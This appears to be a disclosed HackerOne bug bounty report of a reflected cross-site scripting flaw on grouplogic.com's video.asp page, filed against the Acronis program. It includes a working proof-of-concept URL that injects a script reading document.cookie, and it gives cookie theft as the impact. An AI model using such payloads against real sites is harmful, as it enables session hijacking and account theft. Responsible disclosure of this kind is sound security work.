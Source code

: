 # Reflected XSS on www.grouplogic.com/video.asp

## Report Details
- **Report ID**: 859802
- **URL**: https://hackerone.com/reports/859802
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-04-26T17:29:49.056Z
- **Disclosed**: 2021-04-13T13:23:49.531Z

## Reporter
- **Username**: ali
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
Hello there,
I hope you are well!

PoC:
http://www.grouplogic.com/video.asp?v=Acroxx1%22%3C/script%3E%3Cscript%3Ealert(document.cookie)%3C/script%3Es_aE&e=mp4&width=560&height=315

## Impact

Stealing cookies

Best Regards,
@mygf

## Attachments
No attachments
